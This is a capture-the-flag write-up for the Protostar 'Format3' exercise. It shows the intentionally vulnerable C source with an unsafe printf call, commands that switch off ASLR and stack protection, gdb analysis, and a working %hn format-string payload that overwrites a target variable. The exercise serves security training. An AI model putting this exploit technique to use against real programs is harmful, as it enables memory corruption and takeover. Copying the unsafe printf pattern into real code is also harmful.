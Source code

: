 ## Protostar-Format3 Solution

### 1. Introduction

This is a poc solution for the "Format3" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170417130413/https://exploit-exercises.com/protostar/format3/](https://web.archive.org/web/20170417130413/https://exploit-exercises.com/protostar/format3/) 
 
**Hints:**
* This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process.
* This also teaches you to carefully control what data is being written to the process memory.

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o format_3 format_3.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

```nasm
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x080484b0 <+0>:	push   ebp
   0x080484b1 <+1>:	mov    ebp,esp
   0x080484b3 <+3>:	sub    esp,0x218
   0x080484b9 <+9>:	mov    eax,ds:0x804a028
   0x080484be <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484c2 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484ca <+26>:	lea    eax,[ebp-0x208]
   0x080484d0 <+32>:	mov    DWORD PTR [esp],eax
   0x080484d3 <+35>:	call   0x8048360 <fgets@plt>
   0x080484d8 <+40>:	lea    eax,[ebp-0x208]
   0x080484de <+46>:	mov    DWORD PTR [esp],eax
   0x080484e1 <+49>:	call   0x804849d <printbuffer>
   0x080484e6 <+54>:	mov    eax,ds:0x804a030
   0x080484eb <+59>:	cmp    eax,0x1025544
   0x080484f0 <+64>:	jne    0x8048500 <vuln+80>
   0x080484f2 <+66>:	mov    DWORD PTR [esp],0x80485c0
   0x080484f9 <+73>:	call   0x8048370 <puts@plt>
   0x080484fe <+78>:	jmp    0x8048515 <vuln+101>
   0x08048500 <+80>:	mov    eax,ds:0x804a030
   0x08048505 <+85>:	mov    DWORD PTR [esp+0x4],eax
   0x08048509 <+89>:	mov    DWORD PTR [esp],0x80485e0
   0x08048510 <+96>:	call   0x8048350 <printf@plt>
   0x08048515 <+101>:	leave  
   0x08048516 <+102>:	ret    
End of assembler dump.

$ objdump -t format_3 | grep target
0804a030 g     O .bss	00000004              target
```

It's similar to previous one but this time we need to write a value **(0x1025544)** onto target variable.

```nasm
0x080484e6 <+54>:	mov    eax,ds:0x804a030
0x080484eb <+59>:	cmp    eax,0x1025544
```

#### 2.2 Quick Solution

Let's by calculating the offset between the parameters of printf and the string when it's called.

```nasm
gdb-peda$ disas printbuffer
Dump of assembler code for function printbuffer:
   0x0804849d <+0>:	push   ebp
   0x0804849e <+1>:	mov    ebp,esp
   0x080484a0 <+3>:	sub    esp,0x18
   0x080484a3 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484a6 <+9>:	mov    DWORD PTR [esp],eax
   0x080484a9 <+12>:	call   0x8048350 <printf@plt>
   0x080484ae <+17>:	leave  
   0x080484af <+18>:	ret

gdb-peda$ b*0x080484a9
Breakpoint 4 at 0x80484a9: file format_3.c, line 10.

gdb-peda$ r
Starting program: format_3 
AAAA

gdb-peda$ x/wx $esp
0xffffced0:	0xffffcf00

gdb-peda$ p/d (0xffffcf00 - 0xffffced0) / 4
$15 = 12
```

Okay it's 12, it's possible to validate by select 12th argument via **$** as well.

```
$ ./format_3
AAAA%12$x                     
AAAA41414141
target is 00000000 :(
```

There are several methods such as writing one byte each time but I'd like to use short writes method.
This method (short int types: the '%hn') helps to write an address in just two writes.

The following quote is from a pdf which was published after a CCC talk.
[https://koeln.ccc.de/archiv/congress/17c3-2000/formatstring/shortwrite.html](https://koeln.ccc.de/archiv/congress/17c3-2000/formatstring/shortwrite.html)
[https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf)

> The ‘h’ can be used in other format parameters too, to cast the value supplied on the stack to a short type. The short write technique has
one advantage over the first technique: It does not destroy data beside the address, so if there is valueable data behind the address you are overwriting, such as a function parameter, it is preserved.  This does not work on old GNU C libraries (libc5). Also it consumes more memory in the target process.


Target address: **0804a030**
Target value: **0x1025544**

Let's split **0x1025544** into **0x0102** and **0x5544**.

0x0102 in decimal: **258** 
0x5544 in decimal: **21828**

So we will write the following:

1. **21828** to **0804a030**
2. **258** to **0804a032**

So let's structure our payload step by step.

1. Target address and address+2: 
    
    **"\x32\xa0\x04\x08\x30\xa0\x04\x08"**

2. We need to write on to target but %n gets number of bytes before it. So, let's pad 250 times (**%250d**) **258-8= 250**:

    **"\x32\xa0\x04\x08\x30\xa0\x04\x08%250d"**

3. Our buffer starts in the offset 12.

    **"\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn"**

4. Then we need to overwrite second half of our target address. So, padding will be: **21828 - 258 = 21570**:

    **"\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn%21570d"**
 
5. Just next to our first half of the payload is 13. By using direct access (**$**) short int write:

    **"\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn%21570d%13$hn"**


Let's check if it works out or not:

```nasm
gdb-peda$ b*0x080484a9
Breakpoint 1 at 0x80484a9: file format_3.c, line 10.

gdb-peda$ r <<< $(python -c 'print "\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn%21570d%13$hn"')
...TRIM...

gdb-peda$ b*0x80484ae
Breakpoint 2 at 0x80484ae: file format_3.c, line 11.

gdb-peda$ c
Continuing.

gdb-peda$ disas 
Dump of assembler code for function printbuffer:
   0x0804849d <+0>:	push   ebp
   0x0804849e <+1>:	mov    ebp,esp
   0x080484a0 <+3>:	sub    esp,0x18
   0x080484a3 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484a6 <+9>:	mov    DWORD PTR [esp],eax
   0x080484a9 <+12>:	call   0x8048350 <printf@plt>
=> 0x080484ae <+17>:	leave  
   0x080484af <+18>:	ret    
End of assembler dump.

gdb-peda$ print target
$3 = 0x1025544
```
As seen above, **target** variable is overwritten with our target value (**0x1025544**).

#### 2.3 Final PoC

```
python -c 'print "\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn%21570d%13$hn"' | ./format_3

2�0�                                                                                                                                                                                                                                                -134281632                                                                                                                                                                                                                                                                                                                                  -11900
you have modified the target :)
```
